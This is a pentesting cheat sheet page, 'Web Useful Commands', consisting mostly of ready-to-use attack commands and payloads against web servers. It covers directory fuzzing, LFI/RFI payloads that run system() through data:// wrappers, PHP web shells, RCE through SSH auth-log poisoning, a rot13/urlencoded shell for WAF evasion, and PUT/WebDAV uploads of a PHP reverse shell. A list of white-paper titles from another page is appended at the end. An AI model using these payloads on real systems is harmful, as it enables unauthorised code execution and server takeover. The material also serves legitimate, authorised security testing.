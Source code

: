 ```yaml
---
layout: default
title: Web Useful Commands
parent: General Pentesting
nav_order: 2
---
```


# Web useful commands
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Quick References
### Fuzzing
```
dirb http://10.10.10.56 /usr/share/wordlists/dirb/big.txt -x /usr/share/wordlists/dirb/extensions_common.txt
dirb http://10.0.0.10 -X .htm,.html,.php
```
```
wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/All_attack.txt http://10.0.0.10/test.php?file=FUZZ
```

### Create wordlist
```
cewl –w /root/Desktop/words.txt –m 6  https://example.com
```

### WAF detection 
```
wafw00f http://192.168.56.102
```

### Upload Files
```
curl -u <username:password> -T file_to_upload <Target_URL>
curl -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" <Target_URL>
```


## General Exploitation
### LFI
Simple RFI
```
page=data://text/plain, <?php system("whoami");?>
```
Base64 encoded RFI
```
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTs/Pg==
```
```
lang=php://filter/convert.base64-encode/resource=index
```

Mini shell
```
page=data://text/plain,<?php system($_GET[cmd]);?>&cmd=id
```
Base64 + URL encoded mini shell 
```
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8%2B&cmd=id
```


### RCE with LFI and SSH log poisoning
From
* [https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning)

```
ssh '<?php system($_GET['c']); ?>'@192.168.0.23
```
```
http://192.168.1.129/lfi/lfi.php?file=/var/log/auth.log&c=id
```

### PHP shell WAF escape
Urlencode and rot13 encode 
```
<?php
 
$enc = <<<ENC
__ENCODED PHP SHELL HERE__
ENC;
 
assert(urldecode(str_rot13($enc)));
?>
```
Use 
``` 
<?php echo shell_exec($_GET['cmd'].' 2>&1'); ?>
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
<?php $c=$_GET[‘c’]; echo `$c`; ?>
```


## Insecure Methods
### Methods Testing
```
nc <IP>

HEAD / HTTP/1.0
OPTIONS / HTTP/1.0
PROPFIND / HTTP/1.0
TRACE / HTTP/1.1
PUT http://Target_URL/FILE_NAME
POST http://Target_URL/FILE_NAME HTTP/1.x
```

### TRACE
```
telnet www.victim.com 80
> TRACE / HTTP/1.1
> Host: www.victim.com
```
```
curl -k -s -i -X TRACE https://IP -H "Cookies: Reflected"
```


### PUT    
```
curl http://192.168.40.130/test/ --upload-file /root/Desktop/curl.php -v

curl --upload-file php-reverse-shell.txt -v --url http://192.168.40.130/test/shell.php -0 --http1.0

curl -i -X PUT -H "Content-Type: application/xml; charset=utf-8" -d @"/tmp/some-file.xml" http://www.victim.com/newpage

curl -X PUT -d "text or data to put" http://www.victim.com/destination_page

curl -i -H "Accept: application/json" -X PUT -d "text or data to put" http://victim.com/new_page
```

```         
cadaver http://<IP>/dav/
put /root/Desktop/shell.php
```


## References

* [http://pentestmonkey.net](http://pentestmonkey.net)

            White Papers
                Cross Site Request Forgery: An Introduction to a Common Web Application Weakness
                Attacking Web Service Security: Message Oriented Madness, XML Worms and Web Service Security Sanity
                Blind Security Testing - An Evolutionary Approach
                Command Injection in XML Signatures and Encryption
                Input Validation Cheat Sheet
                SQL Injection Cheat Sheet

